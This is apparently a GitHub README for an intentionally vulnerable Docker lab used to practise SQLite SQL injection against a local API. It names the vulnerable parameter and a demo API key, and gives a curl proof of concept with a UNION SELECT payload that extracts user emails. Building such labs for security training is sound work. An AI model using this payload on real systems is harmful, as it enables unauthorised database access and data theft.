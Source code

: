 # SQLite_SQLinjection_Docker
SQLite SQLInjection testing with Docker

### Installation

```
git clone https://github.com/Xib3rR4dAr/SQLite_SQLinjection_Docker.git
cd SQLite_SQLinjection_Docker
docker-compose up
```

### Usage

API endpoint documentation can be accessed by visiting `http://127.0.0.1:8000/docs`.  
API can be accessed interactively also from thesame endpoint.

### Vulnerable System
Vulnerable Endpoint: `http://127.0.0.1:8000/api/v1/users/me/info?user_id=1`  
Vulnerable Parameter: `user_id`  
Mandatory Header name: `x-api-key`  
Mandatory Header Value: `my-secret-api-key`  

### PoC

```
curl -X 'GET' \
  'http://127.0.0.1:8000/api/v1/users/me/info?user_id=-1%27%20UNION%20SELECT%20123%2Cemail%2C3%2Csqlite_version%28%29%20FROM%20users--%20-' \
  -H 'accept: application/json' \
  -H 'x-api-key: my-secret-api-key'
```

### Screenshot

![image](https://github.com/user-attachments/assets/d472fe8c-ad91-4971-ab0d-ace98b18f047)
